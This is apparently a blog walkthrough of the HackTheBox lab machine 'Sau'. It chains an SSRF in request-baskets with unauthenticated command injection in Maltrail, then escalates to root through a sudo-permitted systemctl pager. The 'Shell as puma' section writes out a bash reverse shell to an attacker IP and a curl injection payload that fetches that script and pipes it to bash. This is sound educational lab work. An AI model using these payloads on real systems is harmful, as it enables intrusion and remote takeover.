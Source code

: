 ```yaml
---
layout: post
title: HackTheBox-Sau Walkthrough
date: 2023-12-29 08:00:00 -500
categories: [HackTheBox Walkthrough]
tags: [HackTheBox]
image: Sau.png
img_path: /assets/img/favicons/HackTheBox/Sau/
---
```


# Description :
Sau is an easy Hack The Box machine that features two vulnerabilities on its website—SSRF on the main site and OS Command Injection in a locally running website named Maltrail on port 80. The privilege escalation to root is straightforward, as the Puma user can execute a service with root privileges.



## Nmap :

Upon scanning the host's ports, we identified two open ports: 22 and 5555 : 

```bash
 /opt/nmapAutomator/nmapAutomator.sh -t All -H 10.10.11.224 

Running all scans on 10.10.11.224

Host is likely running Linux


---------------------Starting Port Scan-----------------------



PORT      STATE SERVICE
22/tcp    open  ssh
55555/tcp open  unknown



---------------------Starting Script Scan-----------------------



PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 29 Dec 2023 13:52:51 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 29 Dec 2023 13:52:24 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 29 Dec 2023 13:52:24 GMT
|_    Content-Length: 0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## TCP - PORT 5555

***About Request Baskets :Request Baskets is a web service to collect arbitrary HTTP requests and inspect them via RESTful API or simple web UI. It is strongly inspired by ideas and application design of the RequestHub project and reproduces functionality offered by RequestBin service.***

We can create a basket with name choice , in this case `emsec` :
![Alt text](web_basket_01.png)
![Alt text](web_basket_02.png)

![Alt text](web_basket_03.png)

Now, our basket is prepared and awaits incoming requests:

![Alt text](web_basket_04.png)

if we try to send requests to http://10.10.11.224:55555/emsec it will apear on `Request Baskets` :

![Alt text](web_basket_05.png)

also there is a parameters that we can modify :

![Alt text](web_basket_06.png)



## CVE-2023-27163 | SSRF:

By examining the website version

![Alt text](vulnerable_version.png)

I searched on Google for vulnerabilities in the `request-baskets  Version: 1.2.1` and discovered the associated steps on GitHub under[CVE-2023-27163 ](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)

Having identified the SSRF on the website, by implementing this modification, we can exploit it.

![Alt text](web_basket_07.png)

revisiting the `/emsec` basket :
![Alt text](web_basket_08.png)

We successfully exploited the SSRF; it is now functioning as intended.


## OS Command Injection on Maltrail :


***what is Maltrail : [Maltrail](https://github.com/stamparm/maltrail/blob/master/README.md#introduction) is a malicious traffic detection system***

Upon inspecting the bottom, we can identify the version of Maltrail. After searching for its vulnerability on Google, we came across a post regarding [Unauthenticated OS Command Injection](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

Now, let's proceed. Firstly, change the `Forward URL:` to `http://127.0.0.1:80/login`:

![Alt text](web_basket_09.png)

After executing the injection, we received the callback, confirming the successful functioning of the OS command :

![Alt text](shell.png)

## Shell as puma:

create your reversesehll and strat the http.server: 

* reverse shell :
```bash
┌──(emsec㉿emsec-pc)-[~]
└─$ cat shell.sh 
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.81/4444 0>&1"

```
* payload :

```bash
curl -X POST 'http://10.10.11.224:55555/emsec' \
  --data "username=;'curl http://10.10.14.81/shell.sh|bash'"
```

* Upgrading Shell to Fully Interactive TTYs :

```bash
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"

CTR+Z

stty -echo raw;fg

```

and then reading the user falg :

```bash
puma@sau:/opt/maltrail$ cd /home/puma/
puma@sau:~$ ls
user.txt
puma@sau:~$ cat user.txt 
d19b35b25e4df14c10326b***********
```

## Shell as root :


Upon inspecting the privileges of the current Puma user using `sudo -l`, we discovered the capability to execute `/usr/bin/systemctl status trail.service` with root permissions.

```bash
puma@sau:~$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```


It appears to be a straightforward privilege escalation. We can easily chack [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

![Alt text](gtfobins.png)



Get root by just running

`sudo /usr/bin/systemctl status trail.service` then `!sh`

![Alt text](root.png)


I hope you enjoyed my write-up. 

![](https://github.com/Mostafatoumi/mostafatoumi.github.io/blob/main/assets/img/favicons/HackTheBox/emsec_4.gif)

Happy hacking!

